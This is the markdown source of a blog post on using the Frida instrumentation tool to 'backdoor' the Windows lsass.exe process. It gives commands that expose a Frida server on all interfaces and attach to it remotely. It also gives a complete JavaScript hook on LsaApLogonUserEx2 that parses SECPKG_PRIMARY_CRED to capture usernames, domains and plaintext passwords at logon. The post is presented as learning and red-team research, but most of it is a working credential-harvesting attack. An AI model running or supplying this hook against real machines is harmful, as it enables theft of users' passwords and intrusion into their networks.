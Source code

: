 ```yaml
---
title: Dumping Lsass with... Frida? (Part 1)
description: A blog about dynamic instrumentation of Lsass for fun and profit!
---
```


# Dumping Lsass with... Frida? (Part 1)

Recently I've been getting into [Frida](https://frida.re/), a great debugging and dynamic instrumentation tool with cross-platform support. Before I looked into it, I'd only ever heard of Frida as a tool for hacking mobile apps - I'd never considered it for anything else. However, I think Frida has just as much potential as a rapid prototyping tool for reverse engineering and exploit development. It's agile, portable and fast, which makes it an excellent choice for experimenting and tinkering with a process.

I've had advice in the past that writing your own Mimikatz implementation is one of the best ways to get familiar working with memory hacking in Windows. A credential dumper that requires you to execute and connect to a Frida server on the target probably wouldn't be your first choice on an engagement. However, it's also not something I've seen anyone else doing, and I hoped that the end result would be a kind of "intermediary" tool that could be trivially ported to other languages. 

In this first part, we'll focus on taking advantage of Frida's dynamic instrumentation features to backdoor Lsass remotely. In future articles, we'll explore dumping credentials directly from Lsass memory.

## Step 1: Exploring Lsass

You can find a wealth of tools and tutorials out there which discuss how mimikatz works and how to dump credentials from the process memory of Lsass. I wanted to make a start completely blind, though, and see what I could discover with Frida alone.

To start with, I spun up a Windows 10 VM and launched the latest version of Frida server as Administrator:

```powershell
> .\frida-server.exe -l 0.0.0.0
```

This opens a debugging server on port 27042, which we can connect to using Frida:

```bash
$ frida -H 192.168.1.120 lsass.exe
```

One of Frida's most powerful features is its dynamic instrumentation functionality, which lets us hook almost any function used by a process. Before we can do that, though, we'll need some basic situational awareness. There are a lot of different modules loaded by the *lsass.exe* process, which we can enumerate using `Process.enumerateModules()`. Here's just one of the results:

```text
    {
        "base": "0x7ffd1ca30000",
        "name": "msv1_0.DLL",
        "path": "C:\\Windows\\system32\\msv1_0.DLL",
        "size": 483328
    },
```

Out of the many possible options, this one stands out - it's the Microsoft Authentication Package, which is invoked by LSA when a user performs an interactive logon. According to [Microsoft's documentation](https://learn.microsoft.com/en-us/windows/win32/secauthn/msv1-0-authentication-package):

> The MSV1_0 package checks the local security accounts manager (SAM) database to determine whether the logon data belongs to a valid security principal and then returns the result of the logon attempt to the LSA.

If we're looking to hook into the authentication logic called by Lsass, this seems like a pretty good place to start.

## Step 2: Hooking MSV1_0

So, now we have a good idea of which module we want to target, but how do we know which functions to hook in order to extract credentials? This is where frida-trace comes to the rescue. We can simply specify the module we're interested in and hook all functions within it:

```bash
frida-trace -H 192.168.1.120 lsass.exe -i 'msv1_0.DLL!*'
```

We leave this running while we invoke an interactive logon somewhere on the target VM (i.e. using the *runas* command), and sure enough:

![a screenshot of various hooked functions including LsaApLogonUserEx2](/img/tracing-msv1_0.png)

I decided to go with the obvious choice here, and target the *LsaApLogonUserEx2()* function. Luckily for us, this function is actually [documented in the MSDN](https://docs.microsoft.com/en-us/windows/win32/api/ntsecpkg/nc-ntsecpkg-lsa_ap_logon_user_ex2). That will make hooking it a lot easier, as we know exactly what the arguments and expected return values are.

```text
LSA_AP_LOGON_USER_EX2 LsaApLogonUserEx2;

NTSTATUS LsaApLogonUserEx2(
  [in]  PLSA_CLIENT_REQUEST ClientRequest,
  [in]  SECURITY_LOGON_TYPE LogonType,
  [in]  PVOID ProtocolSubmitBuffer,
  [in]  PVOID ClientBufferBase,
  [in]  ULONG SubmitBufferSize,
  [out] PVOID *ProfileBuffer,
  [out] PULONG ProfileBufferSize,
  [out] PLUID LogonId,
  [out] PNTSTATUS SubStatus,
  [out] PLSA_TOKEN_INFORMATION_TYPE TokenInformationType,
  [out] PVOID *TokenInformation,
  [out] PUNICODE_STRING *AccountName,
  [out] PUNICODE_STRING *AuthenticatingAuthority,
  [out] PUNICODE_STRING *MachineName,
  [out] PSECPKG_PRIMARY_CRED PrimaryCredentials,
  [out] PSECPKG_SUPPLEMENTAL_CRED_ARRAY *SupplementalCredentials
)
```

Armed with this information, we can see that the thing we probably care about is the *PrimaryCredentials* variable, which is the 15th argument passed to the function. Now we know enough to write our own Frida script:

```text
var msv = Process.getModuleByName("msv1_0.DLL");
var logonUser = msv.getExportByName("LsaApLogonUserEx2");

Interceptor.attach(logonUser, {
	onEnter: function(args) {
		this.primaryCredentials = args[14];
	},
	onLeave: function(retval) {
		console.log("Address of primary credentials is " + this.primaryCredentials);
	}
});
```

So far, the script is pretty simple. We identify the address of the function and attach to it with Frida's interceptor. When the function is entered, we save the address of the PrimaryCredentials array. When the function exits, we print the address. To test it out, simply inject the script into Frida:

```bash
$ frida -H 192.168.1.120 lsass.exe -l LsaApLogonUserEx2.js
```

And invoke another interactive logon.

## Step 3: Parsing PrimaryCredentials

So, now we can hook the *LsaApLogonUserEx2()* function and get a pointer to the PrimaryCredentials structure. How do we turn that into actual credential information? The PrimaryCredentials structure is of type *PSECPKG_PRIMARY_CRED*, which means it's a pointer to a *SECPKG_PRIMARY_CRED* struct. Happily for us, that struct is [documented for us as well](https://docs.microsoft.com/en-us/windows/win32/api/ntsecpkg/ns-ntsecpkg-secpkg_primary_cred):

```text
typedef struct _SECPKG_PRIMARY_CRED {
  LUID           LogonId;
  UNICODE_STRING DownlevelName;
  UNICODE_STRING DomainName;
  UNICODE_STRING Password;
  UNICODE_STRING OldPassword;
  PSID           UserSid;
  ULONG          Flags;
  UNICODE_STRING DnsDomainName;
  UNICODE_STRING Upn;
  UNICODE_STRING LogonServer;
  UNICODE_STRING Spare1;
  UNICODE_STRING Spare2;
  UNICODE_STRING Spare3;
  UNICODE_STRING Spare4;
} SECPKG_PRIMARY_CRED, *PSECPKG_PRIMARY_CRED;
```

This gives us all the information we need to write our own parser in Frida. We can "walk" through the struct by starting from our pointer and adding the size of each struct member to get to the next one. For example, the size of a *LUID* struct is 0x8, so we can do:

```javascript
var logonId = this.primaryCredentials;
var downLevelName = logonId.add(0x8);
```

By iterating through in this way, we can eventually get pointers to the members we actually care about: *DownLevelName*, *DomainName*, *Password* and *OldPassword*. Each of these elements is a *UNICODE_STRING* struct, which requires a bit of parsing themselves. The final parsing function is as follows:

```javascript
function parsePrimaryCredentials(ptr) {
	// Parse the SECPKG_PRIMARY_CRED structure pass to LsaApLogonUserEx2. 64-bit only.
	// Input: a pointer to the SECPKG_PRIMARY_CRED structure to be parsed.
	
	var size_luid = 0x8; // https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/igpupvdev/ns-igpupvdev-_luid
	var size_unicode_string = 0x10; // https://www.geoffchappell.com/studies/windows/km/ntoskrnl/inc/shared/ntdef/unicode_string.htm
	
	// Reference for struct members:
	// https://docs.microsoft.com/en-us/windows/win32/api/ntsecpkg/ns-ntsecpkg-secpkg_primary_cred

	// Calculate the address of each member by adding the sizeof the previous member.
	var logonId = ptr;
	var downLevelName = logonId.add ( size_luid );
	var domainName = downLevelName.add( size_unicode_string );
	var password = domainName.add( size_unicode_string );
	var oldPassword = password.add( size_unicode_string );

	// Read the length from each unicode string. Divide by 2 because we are reading UTF 16 strings.
	// Length is located at offset 0x0 in the UNICODE_STRING struct.
	var downLevelNameLength = downLevelName.readUShort() / 2;
	var domainNameLength = domainName.readUShort() / 2;
	var passwordLength = password.readUShort() / 2;
	var oldPasswordLength = oldPassword.readUShort() / 2;

	// Use the length values to read the correct number of bytes from each unicode string.
	// Buffer is located at offset 0x8 in the UNICODE_STRING struct.
	var downLevelNameBuffer = downLevelName.add(0x8).readPointer().readUtf16String(downLevelNameLength);
	var domainNameBuffer = domainName.add(0x8).readPointer().readUtf16String(domainNameLength);
	var passwordBuffer = password.add(0x8).readPointer().readUtf16String(passwordLength);
	var oldPasswordBuffer = oldPassword.add(0x8).readPointer().readUtf16String(oldPasswordLength);

	//Return results.
	var output = {
		"sam_account": downLevelNameBuffer,
		"domain": domainNameBuffer,
		"password": passwordBuffer,
		"old_password": oldPasswordBuffer
	}
	return output;
}
```

And the final result when running it against my Windows 10 VM and initiating an interactive logon:

![a screenshot of dumped credentials from a user logon](/img/dumping-msv1_0.png)

## Conclusion

Hooking functions and changing their behaviour is Frida's bread and butter, and we've demonstrated just how easy it is to backdoor Lsass with Frida. All you need to do so is a little bit of Javascript, a little bit of C struct knowledge, and local admin. In the next part, we'll move away from hooking functions. Instead, we'll look into replicating Mimikatz functionality by extracting credentials directly from memory.

<!--
Resources that helped me, which I should credit:

https://blog.xpnsec.com/exploring-mimikatz-part-1/
https://www.matteomalvica.com/blog/2020/01/20/mimikatz-lsass-dump-windg-pykd/
-->
